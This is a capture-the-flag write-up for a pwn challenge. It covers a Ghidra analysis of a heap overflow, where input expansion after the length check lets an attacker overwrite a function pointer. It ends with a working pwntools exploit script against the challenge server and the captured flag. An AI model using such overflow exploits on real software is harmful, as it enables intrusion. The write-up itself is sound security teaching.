 # T0NY TR4N5L4T0R (pwn)
## problem
Tony Stark has entered the edgy hacker stage of life and decided to make his own competitor to Grammarly. His program has some glaring flaws. Can you be super 1337 and use these flaws to retireve his signature flag?

## Analysis
Put the binary in ghidra. In main function, we can get the flag if the value of `counter` variable is 2. In order to store 2 in `counter`, we have to call `main` function twice.

![counter](img/counter.png)

In below of `main` function, a value of heap is called. 

![func1](img/func1.png)  
![func2](img/func2.png)

But the size of our input must be less than 0x3d to call above.  
![size](img/size.png)

To gain more information, I analyzed the chunks of heap. 
* First from the top chunk is a buffer for receiving our input.
* Third from the top chunk is the pointer to `useless` function.  
  
![heap](img/heap.png)  

It seems that we can overwrite the pointer of function in third chunk if first chunk is vulnerable for overflow. But size of our input must be less than 0x3d. So the below gadget is useful to heap overflow.

![gadget](img/gadget.png)

some "a" of our input are trancerated to "/\\". And this operation is performed after defined the size of our input.


## Exploit
Use the above gadget, and overwrite the `func` pointer to `main`.
```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
HOST = "0.cloud.chals.io"
PORT = 26008

CHALL_BIN = "./leet"
gs = '''
b main
b *0x8049501
c
'''
elf = context.binary

def start():
    if args.REMOTE:
        return remote(HOST, PORT)
    elif args.LOCAL:
        return process([elf.path])
    else:
        return gdb.debug([elf.path], gdbscript=gs)

def exploit():
    padding1 = b'a'*0x18 + b'p'*0x20
    io.sendline(padding1 + p32(elf.symbols["main"]))

io = start()
exploit()
io.interactive()
```
Flag: `shctf{Y00_175_70NY_574RK}`